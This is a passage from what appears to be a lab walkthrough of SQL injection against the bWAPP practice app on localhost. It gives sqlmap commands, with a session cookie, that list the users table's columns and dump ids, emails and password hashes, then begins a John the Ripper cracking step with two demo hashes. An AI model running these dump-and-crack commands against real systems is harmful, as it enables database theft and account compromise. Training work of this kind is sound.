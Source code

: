 Now, we will list all the columns that the `users` table contains:

```sh
sqlmap -u "localhost:8025/sqli_2.php?movie=4" -D bWAPP -T users --columns --cookie="PHPSESSID=jhkp27damqtdvdevn7ivgm8kq0;security_level=0"
```

<img width="512" alt="Screenshot 2024-10-23 at 11 53 15" src="https://github.com/user-attachments/assets/7ddd5923-073c-4553-8351-da27284afefe">

Finally, retrieve all the needed information. In our case which is id, email and password.

```sh
sqlmap -u "localhost:8025/sqli_2.php?movie=4" -D bWAPP -T users -C id,email,password --dump --cookie="PHPSESSID=jhkp27damqtdvdevn7ivgm8kq0;security_level=0"
```

<img width="695" alt="Screenshot 2024-10-23 at 12 03 07" src="https://github.com/user-attachments/assets/bbe1284b-5b0b-490b-89ad-f4e198a96fa5">

## 3. Make use of John the Ripper to disclose the password of all database users from the above exploit 

To make use of John the Ripper we use the above `users` information and create a file name `password.txt` to John format:

```
touch password.txt
```

Content inside:

```
bwapp-aim@mailinator.com:6885858486f31043e5839c735d99457f045affd0
bwapp-bee@mailinator.com:6885858486f31043e5839c735d99457f045affd0
```

<resolve-issue-with-osx-for-hash-loader>
